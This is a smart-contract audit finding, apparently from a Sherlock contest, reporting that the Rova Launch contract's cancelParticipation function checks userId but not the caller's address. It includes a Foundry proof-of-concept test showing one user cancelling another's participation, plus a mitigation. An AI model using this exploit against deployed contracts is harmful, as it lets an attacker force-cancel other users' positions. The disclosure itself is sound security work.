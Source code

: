 Mini Lava Deer

High

# Unauthorized Cancellation of User Participations

## Finding description and impact

The `cancelParticipation` function fails to verify that the caller (msg.sender) matches the original participant's address, allowing any user to cancel another user's participation.

## Links to affected code

https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L404-L466

## Proof of Concept

The vulnerability lies in the authentication check of the function. While it verifies the `userId` matches, it fails to validate that `msg.sender` matches the original participant's address:

```solidity
// Only checks userId, not address
if (request.userId != info.userId) {
    revert UserIdMismatch(info.userId, request.userId);
}

// Later sends refund to original address
IERC20(info.currency).safeTransfer(info.userAddress, refundCurrencyAmount);
```

While the refund is correctly sent to the original participant's address (stored in `info.userAddress`), the lack of address validation means any user with knowledge of another user's participation details can force a cancellation of their position.

Add this test to `LaunchCancelParticipationTest` contract:

```solidity
    function testUnauthorizedCancelParticipation() public {
        // Setup launch group with non-finalizing participation
        bytes32 launchGroupId = bytes32(uint256(1));
        LaunchGroupSettings memory settings1 = _setupLaunchGroupWithStatus(launchGroupId, LaunchGroupStatus.PENDING);
        settings1.finalizesAtParticipation = false;
        settings1.status = LaunchGroupStatus.ACTIVE;

        vm.startPrank(manager);
        launch.setLaunchGroupSettings(launchGroupId, settings1);
        vm.stopPrank();

        // User1 makes initial participation with their own participation ID
        bytes32 participationId = bytes32("user1_participation");
        ParticipationRequest memory initialRequest = _createParticipationRequest();
        initialRequest.launchGroupId = launchGroupId;
        initialRequest.launchParticipationId = participationId;
        initialRequest.tokenAmount = 1000 * 10 ** launch.tokenDecimals();
        initialRequest.userAddress = user1; // Important: Set correct user address
        bytes memory initialSignature = _signRequest(abi.encode(initialRequest));

        vm.startPrank(user1);
        currency.approve(
            address(launch), _getCurrencyAmount(launchGroupId, initialRequest.currency, initialRequest.tokenAmount)
        );
        launch.participate(initialRequest, initialSignature);
        vm.stopPrank();

        // Record User1's initial currency balance
        uint256 user1InitialBalance = currency.balanceOf(user1);

        // User2 attempts to cancel User1's participation
        vm.startPrank(user2);
        CancelParticipationRequest memory cancelRequest = _createCancelParticipationRequest();
        cancelRequest.launchGroupId = launchGroupId;
        cancelRequest.launchParticipationId = participationId;
        cancelRequest.userId = initialRequest.userId; // Use User1's userId
        cancelRequest.userAddress = user2; // Use attacker's address

        bytes memory cancelSignature = _signRequest(abi.encode(cancelRequest));

        // This should succeed since the contract only checks userId, not address
        launch.cancelParticipation(cancelRequest, cancelSignature);
        vm.stopPrank();

        // Verify participation was cancelled
        ParticipationInfo memory info = launch.getParticipationInfo(participationId);
        assertEq(info.tokenAmount, 0);
        assertEq(info.currencyAmount, 0);

        // Verify User1 got their refund (not the attacker)
        assertGt(currency.balanceOf(user1), user1InitialBalance);
    }

```
## Impact
While the vulnerability enables:

  1. Forced cancellation of other users' positions
  2. Denial of service for specific users by repeatedly cancelling their participations

## Recommended mitigation steps

Add address validation at the start of the function:

```solidity
    // Add address validation
    if (msg.sender != info.userAddress) {
        revert UnauthorizedCancellation();
    }
```
